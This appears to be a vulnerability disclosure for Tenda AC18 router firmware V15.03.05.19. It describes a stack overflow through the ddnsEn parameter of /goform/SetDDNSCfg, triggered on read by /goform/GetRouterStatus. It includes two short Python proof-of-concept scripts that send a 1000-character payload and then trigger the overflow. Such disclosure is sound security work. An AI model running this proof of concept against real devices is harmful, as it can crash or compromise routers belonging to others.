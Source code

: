 ## Overview

- The device's official website: https://www.tenda.com.cn/product/A18.html
- Firmware download website: https://www.tenda.com.cn/material/show/2683

## Affected version

V15.03.05.19(6318)

## Vulnerability details

In the TendaAC18 Firmware has a stack overflow vulnerability in the `/goform/SetDDNSCfg` url. The `Var` variable receives the `ddnsEn` parameter from a POST request and is stored in the configuration item named`adv.ddns1.en` through the SetValue function.

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20250927_234814.png)

`adv.ddns1.en`  configuration item can  be retrieved through the GetValue function in the `/goform/GetRouterStatus` url.However, neither the GetValue function nor the SetValue function impose any restrictions on the length of variables, which can lead to stack overflows by the `v39` variable.

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20251012_092914.png)

## PoC

Set `adv.ddns1.en`

```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/SetDDNSCfg"
payload = "a"*1000

data = {"ddnsEn":payload}
response = requests.post(url, data=data)
print(response.text)
```

Get `adv.ddns1.en`

```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/GetRouterStatus"
response = requests.post(url)
print(response.text)
```

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20250926141817071.png)